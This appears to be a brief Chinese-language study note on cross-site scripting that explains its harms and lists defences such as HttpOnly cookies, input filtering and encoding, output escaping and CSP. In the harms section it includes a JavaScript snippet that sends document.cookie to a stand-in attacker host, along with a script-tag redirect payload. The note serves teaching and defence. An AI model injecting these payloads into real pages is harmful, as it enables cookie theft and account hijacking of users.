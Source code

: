 # XSS

XSS的攻击方式就是想办法“教唆”用户的浏览器去执行一些这个网页中原本不存在的前端代码

XSS的攻击过程都是在浏览器通过执行javascript脚本自动进行，缺少与用户交互的过程

![img](https://segmentfault.com/img/remote/1460000012693785?w=1031&h=767)

### XSS的危害

- 窃取网页浏览中的cookie值，这里和CSRF的区别是，这里是拿到了cookie后主动冒充用户的，而CSRF中根本就不知cookie，仅利用浏览器的隐式校验方式冒充用户。

  ```
  var i=document.createElement("img");
  document.body.appendChild(i);
  i.src ="http://www.hackerserver.com/?c=" + document.cookie;
  ```

  

- 劫持流量实现恶意跳转
想办法插入一句像这样的语句：`<script>window.location.href="http://www.baidu.com";</script>`

- 构建Get和Post请求

  XSS可以在javascript中构建get或者post请求，来实现自己的攻击

### 防范手段
1. ##### 给关键的Cookie设置HttpOnly属性
2. ##### 输入检查

首先是过滤。对诸如<script>、<img>、<a>等标签进行过滤。

其次是编码。像一些常见的符号，如<>在输入的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。

最后是限制。通过以上的案例我们不难发现xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

3. ##### 输出转义

一般说来，除了富文本输出之外，在变量输出到HTML页面时，可以使用编码或者转义的方式来防御XSS攻击

把恶意代码摘除；如一些敏感关键字：<script>

4. ##### CSP

